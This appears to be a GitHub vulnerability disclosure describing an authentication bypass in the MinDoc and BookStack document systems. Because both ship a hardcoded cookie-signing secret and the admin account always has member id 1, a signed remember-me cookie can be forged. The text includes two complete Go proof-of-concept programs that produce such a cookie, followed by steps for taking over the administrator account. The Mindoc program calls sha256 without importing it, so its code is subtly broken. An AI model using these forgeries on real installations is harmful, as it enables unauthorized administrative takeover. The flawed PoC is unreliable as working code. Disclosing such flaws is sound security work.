 ## Vulnerable Detail

MinDoc and BookStack are document management system. They both develop their web services based on Beego. Besides, BookStack is based on MinDoc. They have same IDOR vulnerables.

### Execution track

All function are implemented by different **Controller**. **BaseController** (like Parent class) run the **Prepare()** at every beginning.

![](https://github.com/iifiigii/mindoc-BookStack-IDOR-Vulnerable/blob/gh-pages/1.png)

In **Prepare()**, if applications do not get session information, they try to use cookie to access account.

![](https://github.com/iifiigii/mindoc-BookStack-IDOR-Vulnerable/blob/gh-pages/22.png)

**GetSecureCookie()** is implemented by beego. In this function, it check if cookie has ***key*** field firstly. Then, it split this field to ***vs***, ***timestamp*** and ***sig*** by '|'. It use sha256/sha1 algorithm and secret key ***Secret*** to encrypt the combination of ***vs*** and ***timestamp***. In the end, if ciphertext == ***sig***, it return the ***vs*** after decode by base64.

![](https://github.com/iifiigii/mindoc-BookStack-IDOR-Vulnerable/blob/gh-pages/3.png)

In the next step, function **Decode(value,r)** deserialize the value into r. In this scene, ***value*** is the output of **GetSecureCookie()** and ***r*** is the object of the struct ***CookieRemember***.

![](https://github.com/iifiigii/mindoc-BookStack-IDOR-Vulnerable/blob/gh-pages/5.png)

![](https://github.com/iifiigii/mindoc-BookStack-IDOR-Vulnerable/blob/gh-pages/6.png)

After deserialization, appications use ***remember.MemberId*** find the account information and access the account.

### Unsafe logic

In summary, the first problem is in the parameter ***Secret*** of **GetSecureCookie()**. ***Secret*** is come from **conf.GetAppKey()**. This is a static value ("mindoc"/"godoc") and do not ask for changing the value in the setup stage. The second problem is that the default member Id of the administrator is 1. Based on these problems, we can forge the cookie to access the account of the administrator.

![](https://github.com/iifiigii/mindoc-BookStack-IDOR-Vulnerable/blob/gh-pages/4.png)

### PoC

***PoC for Bookstack***

```golang
package main

import (
	"bytes"
	"crypto/hmac"
	"crypto/sha1"
	"encoding/base64"
	"encoding/gob"
	"fmt"
	"time"
)

type CookieRemember struct {
	MemberId int
	Account  string
	Time     time.Time
}

func main() {
	m := CookieRemember{MemberId: 1, Account: "2"}
	var network bytes.Buffer
	enc := gob.NewEncoder(&network)
	enc.Encode(m)
	encoded := base64.URLEncoding.EncodeToString([]byte(network.String()))
	fmt.Println("base64，vs:", encoded)
	s := "godoc"
	h := hmac.New(sha1.New, []byte(s))
	fmt.Fprintf(h, "%s%s", encoded, "123")
	a := fmt.Sprintf("%02x", h.Sum(nil))
	fmt.Println("sha1，sig:", a)
}
```

***PoC for Mindoc***

```golang
package main

import (
	"bytes"
	"crypto/hmac"
	"crypto/sha1"
	"encoding/base64"
	"encoding/gob"
	"fmt"
	"time"
)

type CookieRemember struct {
	MemberId int
	Account  string
	Time     time.Time
}

func main() {
	m := CookieRemember{MemberId: 1, Account: "2"}
	var network bytes.Buffer
	enc := gob.NewEncoder(&network)
	enc.Encode(m)
	encoded := base64.URLEncoding.EncodeToString([]byte(network.String()))
	fmt.Println("base64，vs:", encoded)
	s := "mindoc"
	h := hmac.New(sha256.New, []byte(s))
	fmt.Fprintf(h, "%s%s", encoded, "123")
	a := fmt.Sprintf("%02x", h.Sum(nil))
	fmt.Println("sha256，sig:", a)
 }
```
After get the fake ***sig*** and ***vs***, we can connect them by '|' (need not to condsider *timestamp*). We replace the original cookie and access the account of the administrator.

![](https://github.com/iifiigii/mindoc-BookStack-IDOR-Vulnerable/blob/gh-pages/8.png)

![](https://github.com/iifiigii/mindoc-BookStack-IDOR-Vulnerable/blob/gh-pages/9.png)

